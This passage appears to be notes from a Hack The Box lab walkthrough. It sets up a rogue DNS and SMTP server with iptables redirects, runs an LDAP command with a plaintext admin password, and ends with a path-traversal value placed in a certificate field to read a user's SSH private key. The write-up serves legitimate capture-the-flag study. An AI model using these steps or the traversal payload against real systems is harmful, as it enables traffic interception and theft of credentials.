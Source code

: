 This works (can check by doing `https://localhost`)

#### DNS server
dns.conf file
```bash
address=/mail.response-test.htb/10.10.14.67
```

Start the dnsmasq
```bash
dnsmasq -p 8053 -C dns.conf
```

iptables reroute
```bash
sudo iptables -A PREROUTING -t nat -p udp -s 10.10.11.163 --dport 53 -j REDIRECT --to-ports 8053

sudo iptables -A PREROUTING -t nat -p tcp -s 10.10.11.163 --dport 53 -j REDIRECT --to-ports 8053
```

Checking with dig on the box.
```bash
dig mail.response-test.htb @10.10.14.67 +short
```

This works, now need to do add the mx portion to the `dns.conf` file.
```bash
mx-host=response-test.htb,mail.response-test.htb,0
```

#### Python SMTP server
```bash
sudo python3 -m smtpd -n -c DebuggingServer 10.10.14.67:25
```

## Testing
Finally seeing if this works. (change the ldif file to have the right cn)
```bash
ldapadd -D 'cn=admin,dc=response,dc=htb' -w aU4EZxEAOnimLNzk3 -f ./eljay.ldif
```

**1 HOUR OF DEBUGGING LATER** (Turns out it doesn't like the password as an env var.)

Oh wow look it works.

Lets look at the pdf. (Need to remove the `b'.*'`)
```sed
%s/^b'//g
%s/'$//g
```

Yea the pdf shows the state which we can use for the LFI.

## The LFI bit
Change some info when making the cert
```text
Country Name (2 letter code) [AU]:  
State or Province Name (full name) [Some-State]:../../../../../../../home/scryh/.ssh/id_rsa
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```
